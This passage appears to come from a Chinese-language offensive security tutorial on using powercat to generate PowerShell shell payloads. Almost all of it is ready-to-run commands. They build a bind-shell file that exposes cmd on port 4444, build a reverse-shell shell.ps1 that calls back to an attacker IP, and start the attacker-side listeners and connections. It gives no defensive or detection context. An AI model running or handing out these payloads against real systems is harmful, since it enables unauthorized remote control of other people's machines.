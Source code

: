 

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_14-23-47.png)



### powercat 生成 payload

在攻击机上运行以下命令生成 shell.ps1 payload 文件







```none
powercat -l -p 4444 -e cmd -g > shell.ps1
```

将 shell.ps1 文件拷贝到目标主机上后，执行 shell.ps1 文件

之后在攻击机上运行以下命令即可获得 shell







```none
powercat -c rhost -p rport -v
```







```none
powercat -c 172.16.214.21 -p 4444 -v 
```

反向连接也可以

在攻击机上生成 ps1 文件，并开启监听







```none
powercat -c rhost -p rport -ep -g > shell.ps1
```







```none
powercat -c 172.16.214.2 -p 4444 -ep -g > shell.ps1
```







```none
powercat -l -p 4444 -v
```

